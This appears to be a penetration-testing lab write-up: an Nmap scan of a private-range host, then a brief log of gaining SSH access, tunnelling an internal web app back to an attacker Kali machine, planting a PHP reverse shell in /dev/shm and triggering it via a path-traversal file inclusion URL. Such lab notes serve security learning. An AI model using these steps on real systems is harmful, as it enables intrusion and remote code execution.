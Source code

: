 ```
Nmap scan report for 192.168.173.246
Host is up (0.024s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Code Validation
|_http-server-header: Apache/2.4.52 (Ubuntu)
443/tcp  open  ssl/http Apache httpd 2.4.52 ((Ubuntu))
| ssl-cert: Subject: commonName=demo
| Subject Alternative Name: DNS:demo
| Not valid before: 2022-10-12T07:46:27
|_Not valid after:  2032-10-09T07:46:27
|_http-title: Code Validation
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
2222/tcp open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 42:2d:8d:48:ad:10:dd:ff:70:25:8b:46:2e:5c:ff:1d (ECDSA)
|_  256 aa:4a:c3:27:b1:19:30:d7:63:91:96:ae:63:3c:07:dc (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/1%OT=80%CT=1%CU=31115%PV=Y%DS=4%DC=T%G=Y%TM=679E8
OS:2CD%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M578ST11NW7%O2=M578ST11NW7%O3=M578NNT11NW7%O4=M578ST11NW7%O5=M578ST
OS:11NW7%O6=M578ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M578NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G
OS:%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   21.35 ms 192.168.45.1
2   21.29 ms 192.168.45.254
3   24.77 ms 192.168.251.1
4   25.13 ms 192.168.173.246
```

Log:
- Got ssh access as anita:
	- ssh -i id_ecdsa -p 2222 anita@192.168.248.246
- Setup local port forwarding to access internal webpage on port 8000
	- ssh -N -R 127.0.0.1:2345:127.0.0.1:8000 kali@192.168.45.173
- wrote php-reverse-shell to /dev/shm
- executed shell via LFI by navigating to http://127.0.0.1:2345/backend/?view=../../../../../../../../../dev/shm/php-reverse-shell.php